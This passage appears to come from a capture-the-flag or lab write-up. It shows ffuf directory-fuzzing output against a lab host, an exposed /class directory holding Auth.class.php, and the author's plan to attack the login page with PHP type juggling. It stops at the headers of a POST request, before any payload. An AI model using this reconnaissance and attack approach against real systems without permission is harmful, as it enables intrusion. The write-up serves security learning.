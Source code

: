 ```bash
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

class                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 157ms]
.                       [Status: 200, Size: 6773, Words: 862, Lines: 301, Duration: 151ms]
```
<br>
Upon accessing the application, I encountered a login page at the index.
![index login page](../images/biscuit/index_php.png)
<br>
So, I decided to verify the `/class` path and found something. This directory was exposed with a file named `Auth.class.php`. I tried to access the file to view its source code, but nothing happened.
<br>
![directory exposed](../images/biscuit/class_directoryexposed.png)
<br>
I also tried to discover other paths and files, but I was unsuccessful.
## Exploitation
Here, we have many vectors to explore. So, I decided to start with the web application. The first thing that came to mind was to explore the request using Type Juggling, as the backend is running PHP.
```
POST / HTTP/1.1
Host: 172.16.5.90
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```